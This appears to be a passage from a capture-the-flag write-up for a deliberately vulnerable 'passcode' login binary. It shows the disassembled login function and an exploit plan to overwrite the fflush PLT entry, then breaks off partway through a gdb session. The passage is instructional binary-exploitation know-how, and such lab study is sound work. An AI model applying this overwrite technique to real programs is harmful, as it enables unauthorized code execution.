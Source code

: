 ```
$ objdump --disassemble=login passcode 
08048564 <login>:
 8048564:       55                      push   %ebp
 8048565:       89 e5                   mov    %esp,%ebp
 8048567:       83 ec 28                sub    $0x28,%esp
 804856a:       b8 70 87 04 08          mov    $0x8048770,%eax
 804856f:       89 04 24                mov    %eax,(%esp)
 8048572:       e8 a9 fe ff ff          call   8048420 <printf@plt>
 8048577:       b8 83 87 04 08          mov    $0x8048783,%eax
 804857c:       8b 55 f0                mov    -0x10(%ebp),%edx
 804857f:       89 54 24 04             mov    %edx,0x4(%esp)
 8048583:       89 04 24                mov    %eax,(%esp)
 8048586:       e8 15 ff ff ff          call   80484a0 <__isoc99_scanf@plt>
 804858b:       a1 2c a0 04 08          mov    0x804a02c,%eax
 8048590:       89 04 24                mov    %eax,(%esp)
 8048593:       e8 98 fe ff ff          call   8048430 <fflush@plt>
 8048598:       b8 86 87 04 08          mov    $0x8048786,%eax
 804859d:       89 04 24                mov    %eax,(%esp)
 80485a0:       e8 7b fe ff ff          call   8048420 <printf@plt>
 80485a5:       b8 83 87 04 08          mov    $0x8048783,%eax
 80485aa:       8b 55 f4                mov    -0xc(%ebp),%edx
 80485ad:       89 54 24 04             mov    %edx,0x4(%esp)
 80485b1:       89 04 24                mov    %eax,(%esp)
 80485b4:       e8 e7 fe ff ff          call   80484a0 <__isoc99_scanf@plt>
 80485b9:       c7 04 24 99 87 04 08    movl   $0x8048799,(%esp)
 80485c0:       e8 8b fe ff ff          call   8048450 <puts@plt>
 80485c5:       81 7d f0 e6 28 05 00    cmpl   $0x528e6,-0x10(%ebp)
 80485cc:       75 23                   jne    80485f1 <login+0x8d>
 80485ce:       81 7d f4 c9 07 cc 00    cmpl   $0xcc07c9,-0xc(%ebp)
 80485d5:       75 1a                   jne    80485f1 <login+0x8d>
 80485d7:       c7 04 24 a5 87 04 08    movl   $0x80487a5,(%esp)
 80485de:       e8 6d fe ff ff          call   8048450 <puts@plt>
 80485e3:       c7 04 24 af 87 04 08    movl   $0x80487af,(%esp)
 80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
 80485ef:       c9                      leave
 80485f0:       c3                      ret
 80485f1:       c7 04 24 bd 87 04 08    movl   $0x80487bd,(%esp)
 80485f8:       e8 53 fe ff ff          call   8048450 <puts@plt>
 80485fd:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048604:       e8 77 fe ff ff          call   8048480 <exit@plt>
```

In thinking about how to do the exploit, we may be tempted to overwrite the return value on the stack to just be 0x80485d7 (the address of the "success" branch), but because of [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), this becomes a little harder. Instead, we'll make use of the Procedure Linkage Table (PLT), and try to overwrite where the `fflush` call ends up going.

```
$ gdb passcode
(gdb) b *0x8048593
Breakpoint 1 at 0x8048593
(gdb) r
Starting program: passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : me
Welcome me!
enter passcode1 : 1

Breakpoint 1, 0x08048593 in login ()
(gdb) si
0x08048430 in fflush@plt ()
(gdb) disass $pc
Dump of assembler code for function fflush@plt:
```